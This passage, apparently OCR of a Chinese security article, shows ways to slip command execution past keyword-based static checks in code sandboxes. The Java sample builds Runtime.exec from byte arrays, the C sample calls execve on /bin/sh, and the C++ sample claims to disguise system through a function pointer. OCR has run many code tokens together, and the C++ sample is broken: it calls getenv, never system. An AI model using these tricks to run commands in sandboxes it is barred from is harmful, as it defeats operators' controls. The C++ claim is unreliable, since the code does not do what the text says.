 ○ 绕过原理：字节数组构造字符串，将敏感字符串（如java.lang.Runtime  
、getRuntime  
、exec  
等）转换为字节数组。在运行时通过new String(new byte[]{...})  
动态构造这些字符串，避免在代码中直接写出敏感单词。  
  
```
import java.util.Scanner;publicclassMain {    publicstaticvoidmain(String[] args)throws Exception {               Class<?> runtimeClass = Class.forName(newString(newbyte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));        ObjectruntimeInstance= runtimeClass.getMethod(newString(newbyte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null);                Processprocess= (Process) runtimeClass.getMethod(newString(newbyte[] { 101, 120, 101, 99 }), String.class)            .invoke(runtimeInstance, newString(newbyte[] { 108, 115 }));        newScanner(process.getInputStream()).useDelimiter("\\A").forEachRemaining(System.out::println);    }}
```  
  
  
  
03  
  
C     
  
  
○ 绕过原理：使用execve  
或fork  
+execvp  
,execve  
是一个低级别的系统调用，通常不会被禁用  
  
```
#include <unistd.h>int main() {    char *args[] = {"/bin/sh", "-c", "ls /", NULL};    execve("/bin/sh", args, NULL);    return 0;}
```  
  
  
  
04  
  
C++  
  
  
○ 绕过原理：通过修改函数指针的地址，将func  
伪装为system  
，绕过system  
关键字静态检测  
  
```
#include <cstdlib>int main() {    char s[] = {115, 121, 115, 116, 101, 109, 0};    int (*func)(const char*) = (int (*)(const char*))std::getenv("PATH");    *(void**)&func = (void*)std::getenv;      return func("ls /");}
```  
  
  
  
# 03  
  
  
  
进一步测试  
  